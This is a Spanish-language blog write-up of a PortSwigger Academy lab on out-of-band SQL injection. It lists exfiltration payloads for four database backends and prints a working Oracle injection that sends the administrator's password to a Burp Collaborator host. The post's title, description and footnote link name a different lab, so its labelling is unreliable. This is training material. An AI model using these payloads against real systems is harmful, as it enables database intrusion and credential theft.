


+++
author = "Alux"
title = "Portswigger Academy Learning Path: SQL Injection Lab 16"
date = "2021-11-11"
description = "Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft"
tags = [
    "sqli",
    "portswigger",
    "academy",
    "burpsuite",
]
categories = [
    "pentest web",
]
series = ["Portswigger Labs"]
image = "head.png"
+++

# Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft

En este <cite>laboratorio[^1]</cite>la finalidad es poder extraer la contrasena del usuario 'administrator' en la tabla 'users'. Para este caso haciendo uso de la exfiltracion de la propia base de datos para que se conecte a nuestro host y ahi captura lo que es enviado en la url.

## Reconocimiento

Lo primero es saber que tipo de payloads podemos usar para ejecutar la consulta que deseamos, y se encuentran las siguientes:

----------------------
Backend | Consulta
---------|-----------
Oracle | SELECT extractvalue(xmltype('\<?xml version="1.0" encoding="UTF-8"?>\<!DOCTYPE root [ \<!ENTITY % remote SYSTEM "http://'\|\|(SELECT YOUR-QUERY-HERE)\|\|'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual
Microsoft | declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net/a"')
PostgreSQL | create OR replace function f() returns void as $$ declare c text; declare p text; begin SELECT into (SELECT YOUR-QUERY-HERE); c := 'copy (SELECT '''') to program ''nslookup '\|\|p\|\|'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net''';execute c; END; $$ language plpgsql security definer; SELECT f();
MySQL | SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\a' *solo funciona en windows*


###  Payloads

Ahora toca saber cual es el payload correcto para poder resolver el lab, probando de uno en uno llegamos a cual es el correcto, asi que probaremos con Oracle el cual termino siendo el correcto y evitarnos probar cada uno del resto, la consulta ejecutada fue:

```sql
xxxxxxxxxxxx' UNION SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT password from users where username='administrator')||'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual--
```
Claramente este codigo debemos convertirlo en formato URL para que no entre en conflicto con el header que es enviado. Para quedarmente enviado y ejecutado de esta manera.




Ahora solo queda iniciar sesion con la contrasena de administrator qu es `54m0mxu0yem302cyqm60`.Y con esto hemos resulto el lab:



Con esto ya muestra que se ha resuelto el lab.

[^1]: [Laboratorio](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft)